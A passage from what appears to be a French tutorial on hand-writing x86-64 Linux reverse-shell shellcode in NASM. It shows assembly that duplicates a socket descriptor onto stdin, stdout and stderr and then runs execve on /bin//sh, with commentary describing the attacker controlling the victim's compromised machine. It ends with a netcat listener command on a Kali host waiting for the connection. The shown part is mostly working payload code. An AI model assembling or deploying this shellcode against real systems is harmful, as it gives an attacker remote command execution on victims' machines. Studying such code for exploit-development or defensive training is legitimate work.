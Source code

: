```nasm
mov rax, 33 ; RAX prend la valeur 33 (numéro du syscall SYS_DUP2)
push r8 ; On push sur la stack la valeur du file descriptor du socket
pop rdi ; On la récupère dans le registre RDI. Ici, RDI = file descriptor du socket
xor rsi, rsi ; On XOR RSI avec lui même donc RSI = 0. Ici RSI = STDIN = 0
syscall

; A la fin de ce syscall, ce qu'il vient de ce passer :
; le file descriptor STDIN de la victime a été dupliqué et il prend maintenant la valeur 
; du file descriptor du socket. En d'autres termes, les entrées effectuées sur le serveur 
; contrôlé par l'attaquant sont désormais interprétées comme des entrées 
; faites par la victime sur son ordinateur compromis.

mov rax, 33 ; RAX prend la valeur 33 (numéro du syscall SYS_DUP2)
push r8
pop rdi
mov rsi, 1 ; RSI prend la valeur 1 qui vaut STDOUT (sortie utilisateur)
syscall
mov rax, 33 ; RAX prend la valeur 33 (numéro du syscall SYS_DUP2)
push r8
pop rdi
mov rsi, 2 ; RSI prend la valeur 2 qui vaut STDERR (affichage d'erreurs)
syscall
```

Parfait ! La redirection est faite, il ne nous reste plus qu’a exécuter les commandes envoyées par l’attaquant via son listener.

## SYS_EXECVE

On va donc utiliser l’appel système SYS_EXECVE pour exécuter ces commandes :

```nasm
xor rsi, rsi ; Efface RSI en le mettant à zéro
push rsi ; On push sur la stack un pointeur NULL pour les arguments de la fonction execve
mov rdi, 0x68732f2f6e69622f   ; Charge l'adresse de la chaîne "/bin//sh" dans RDI.
push rdi ; On push sur la stack l'adresse de la chaîne "/bin//sh"
push rsp ; On push l'adresse actuelle de la stack (pointeur vers la chaîne "/bin//sh")
pop rdi ; RDI récupère l'adresse de la chaîne "/bin//sh"
mov al, 59 ; RAX prend la valeur 59 (numéro du syscall SYS_EXECVE)
cdq ; Étend le signe de EAX vers EDX pour que RDX contienne 0
; Cela signifie qu'il n'y a pas d'arguments à passer à execve
syscall ; Appelle la fonction execve pour exécuter le shell "/bin//sh"
```

Après cette dernière étape, le reverse shell est prêt ! Testons le !

Je prépare un listener pour envoyer des commandes et lire leurs retours sur la machine compromise :

```bash
┌──(dropa㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```

